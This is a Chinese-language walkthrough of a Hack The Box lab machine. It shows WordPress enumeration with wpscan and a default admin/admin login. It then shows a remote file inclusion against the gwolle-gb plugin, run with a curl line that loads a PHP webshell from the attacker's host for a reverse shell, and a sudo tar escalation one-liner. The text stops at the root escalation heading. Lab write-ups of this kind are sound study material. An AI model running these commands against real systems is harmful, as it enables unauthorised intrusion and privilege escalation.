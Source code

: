 ```yaml
---
UID: 20250622082657
aliases: 
tags:
  - 靶场
  - 打靶
  - hackthebox
source: 
cssclasses: 
created: 2025-06-22
---
```


## 扫描端口
![image.png](https://s2.loli.net/2025/06/22/mYcQoEyfvr3qRGV.png)

只有一个 web 服务

## web 服务信息收集
![image.png](https://s2.loli.net/2025/06/22/NkWexl5gmRqFKhj.png)

看看源码有啥东西吗
![image.png](https://s2.loli.net/2025/06/22/ptEOIlQ9zcKCmTf.png)

好吧，并没有

### 目录扫描
![image.png](https://s2.loli.net/2025/06/22/hQ2RqlHmDJoAKM3.png)


发现有个网站和 wordpress 的网站
![image.png](https://s2.loli.net/2025/06/22/bicG3YHVtUu2mPk.png)

![image.png](https://s2.loli.net/2025/06/22/iFTQehwtH42IAGz.png)

但下面这个 wordpress 的网站是没权限访问
![image.png](https://s2.loli.net/2025/06/22/CtHIoxYq9ZSr8jd.png)

### wpscan 枚举
![image.png](https://s2.loli.net/2025/06/22/idoZpEI48vzyYOJ.png)

枚举出一个用户

但用用户爆破密码没有用

![image.png](https://s2.loli.net/2025/06/22/bYi1LM4dEvC9wtW.png)

也能证明我们是没有权限去访问 wordpress 的网站的

### monstra-3.0.4
第一个网站告诉我们一个信息，就是 monstra-3.0.4

遇到一个登录界面

![image.png](https://s2.loli.net/2025/06/22/BoYvmpZE8FcaVUg.png)

试了一个弱密码 admin/admin 登录进去了

![image.png](https://s2.loli.net/2025/06/22/WXNMwQG2JcEAD5L.png)

找到文件上传点
![image.png](https://s2.loli.net/2025/06/22/zVThspofQDwqEGB.png)


使用这个 poc
![image.png](https://s2.loli.net/2025/06/22/kODjGRxUFXJdB2E.png)

大概就是上传一个 php 7 然后 bp 抓包改后缀

没法上传，连文件夹都访问不了
![image.png](https://s2.loli.net/2025/06/22/lNKIZXvmq28JobD.png)


### wpscan
其实刚刚发现 wordpress 莫名可以用了。就准备从 wordpress 开刀

```
 wpscan --url http://tartarsauce.htb/webservices/wp/ --enumerate p,t,u
 
 枚举出插件、主题和用户
 
 wpscan --url http://tartarsauce.htb/webservices/wp --enumerate p --plugins-detection aggressive
 
 是老版本插件，需要增加参数才能扫描出来
```

	其实一开始也是扫描插件的，就是死活扫不出来，用了参数才扫出来

![image.png](https://s2.loli.net/2025/06/22/zRqphav6YrteNcK.png)

看了 readme 知道，其实这个是 1.5.3 版本
![image.png](https://s2.loli.net/2025/06/22/R8QWBAr6oFSZvnC.png)

![image.png](https://s2.loli.net/2025/06/22/Mihne49BKbdrZyp.png)

符合要求
![image.png](https://s2.loli.net/2025/06/22/aSEicwlyop3WA6m.png)


![image.png](https://s2.loli.net/2025/06/22/vs2nWR8lbF5mQLt.png)

这个的意思就是要写一个 wp-load. php 木马进去


写完木马之后，继续用
```
curl http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.16.12/
```

获得反弹 shell
![image.png](https://s2.loli.net/2025/06/22/DuR7I5JiaT692Yq.png)

## 提权
![image.png](https://s2.loli.net/2025/06/22/8K4zklVbEgRsFaN.png)

先要想办法升级到 onuma 用户

因为刚刚发现有 wordpress 网站，就优先找一下 wordpress 网站的配置文件

![image.png](https://s2.loli.net/2025/06/22/UkHB3QVEfd81axC.png)


登录进入数据库

![image.png](https://s2.loli.net/2025/06/22/XVgLu4M5fpO36dj.png)

![image.png](https://s2.loli.net/2025/06/22/9dyC1FGO8aKosu7.png)
找到加密的密码，但感觉无关紧要

没啥思路了，sudo -l 发现可以用 tar 提权
![image.png](https://s2.loli.net/2025/06/22/j4SlYER2QdtOwhC.png)

```
sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

![image.png](https://s2.loli.net/2025/06/22/CWihzFojKEYMQy8.png)

切换成功

![image.png](https://s2.loli.net/2025/06/22/EXPoHmhYpItzJ6i.png)

找到 flag

## 提权 root